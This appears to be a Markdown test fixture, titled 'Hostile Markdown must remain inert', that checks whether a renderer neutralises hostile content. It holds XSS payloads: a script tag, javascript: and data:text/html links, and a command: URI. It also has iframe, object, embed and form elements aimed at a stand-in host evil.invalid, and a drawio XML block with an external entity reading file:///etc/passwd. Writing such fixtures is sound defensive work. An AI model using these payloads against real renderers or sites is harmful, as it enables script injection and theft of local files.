

# Hostile Markdown must remain inert

<script>window.__markdownScriptRan = true</script>

<iframe src="https://evil.invalid/frame"></iframe>
<object data="https://evil.invalid/object"></object>
<embed src="https://evil.invalid/embed">
<form action="https://evil.invalid/submit"><input name="secret"></form>


</script></svg>)


[JavaScript](javascript:alert(1))
[Command](command:workbench.action.closeWindow)
[One-letter URI scheme](x:payload)
[Drive-relative ambiguity](C:relative-drive-path.md)
[VS Code](vscode://settings)
[Data](data:text/html,<script>alert(1)</script>)
[Blob](blob:https://evil.invalid/id)
[Protocol relative](//evil.invalid/path)
[Absolute file](file:///etc/passwd)
[Malformed HTTPS](https:missing-authority.example)



```drawio
<?xml version="1.0"?>
<!DOCTYPE mxfile [<!ENTITY outside SYSTEM "file:///etc/passwd">]>
<mxfile><diagram><mxGraphModel><root><mxCell id="0"/><mxCell id="1" parent="0"/><mxCell id="2" value="&outside;" vertex="1" parent="1"><mxGeometry width="120" height="40" as="geometry"/></mxCell></root></mxGraphModel></diagram></mxfile>
```
